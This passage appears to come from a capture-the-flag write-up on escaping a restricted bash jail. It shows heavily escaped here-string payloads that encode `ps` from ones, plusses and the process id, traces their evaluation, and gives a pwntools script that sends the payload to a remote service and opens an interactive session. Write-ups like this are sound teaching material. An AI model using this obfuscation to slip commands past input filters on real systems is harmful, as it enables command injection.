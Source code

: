 With that knowledge we thought "Why don't we just use the process id?", and added yet another bash call to our list and built our bigger numbers from just ones and plusses.

A basic command like `ps` would now look like this:

```
bash<<<bash\<\<\<bash\\\<\\\<\\\<bash\\\\\\\<\\\\\\\<\\\\\\\<\\\\\\\$\\\\\\\'\\\\\\\\1\\\$\\\(\\\(1\$\'\\$$\'1\$\'\\$$\'1\$\'\\$$\'1\$\'\\$$\'1\$\'\\$$\'1\\\)\\\)0\\\\\\\\1\\\$\\\(\\\(1\$\'\\$$\'1\$\'\\$$\'1\$\'\\$$\'1$\'\\$$\'1\$\'\\$$\'1\\\)\\\)\\\$\\\(\\\(1\$\'\\$$\'1\$\'\\$$\'1\\\)\\\)\\\\\\\'
```

or

```
${!#}<<<${!#}\<\<\<${!#}\\\<\\\<\\\<${!#}\\\\\\\<\\\\\\\<\\\\\\\<\\\\\\\$\\\\\\\'\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)$#\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\'
```

fully encoded.

This evaluates to these:

```
bash<<<bash\<\<\<bash\\\<\\\<\\\<\\\$\\\'\\\\1\$\(\(1$'\53'1$'\53'1$'\53'1$'\53'1$'\53'1\)\)0\\\\1\$\(\(1$'\53'1$'\53'1$'\53'1$'\53'1$'\53'1\)\)\$\(\(1$'\53'1$'\53'1\)\)\\\'
bash<<<bash\<\<\<\$\'\\1$((1+1+1+1+1+1))0\\1$((1+1+1+1+1+1))$((1+1+1))\'
bash<<<$'\160\163'
ps
```

Here's a short script that puts this into action and tries to execute ps:
```python
from pwn import *

r = remote("35.198.107.77", 1337)

def nextpid():
    r.sendline(b"$$")
    r.readuntil(b"bash: ")
    pid = int(r.readuntil(b":")[:-1], 10)
    print("current pid: {}".format(pid))
    r.readline()
    return pid + 1

while nextpid() != 53:
    pass

exploit = rb"${!#}<<<${!#}\<\<\<${!#}\\\<\\\<\\\<${!#}\\\\\\\<\\\\\\\<\\\\\\\<\\\\\\\$\\\\\\\'\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)$#\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$\$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\'"

print("sending exploit")
r.sendline(exploit)
r.interactive()
```
